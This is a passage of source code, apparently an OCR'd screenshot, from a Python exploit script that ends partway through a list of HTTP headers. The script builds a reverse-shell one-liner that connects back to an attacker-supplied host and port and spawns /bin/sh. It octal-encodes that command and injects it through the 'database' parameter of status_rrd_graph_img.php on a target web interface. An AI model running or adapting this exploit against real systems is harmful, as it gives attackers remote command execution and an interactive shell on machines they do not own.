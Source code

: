 ```



rhost = args.rhost

lhost = args.lhost

lport = args.lport

username = args.username

password = args.password





# command to be converted into octal

command = """

python -c 'import socket,subprocess,os;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("%s",%s));

os.dup2(s.fileno(),0);

os.dup2(s.fileno(),1);

os.dup2(s.fileno(),2);

p=subprocess.call(["/bin/sh","-i"]);'

""" % (lhost, lport)





payload = ""



# encode payload in octal

for char in command:

	payload += ("\\" + oct(ord(char)).lstrip("0o"))



login_url = 'https://' + rhost + '/index.php'

exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"



headers = [

	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
```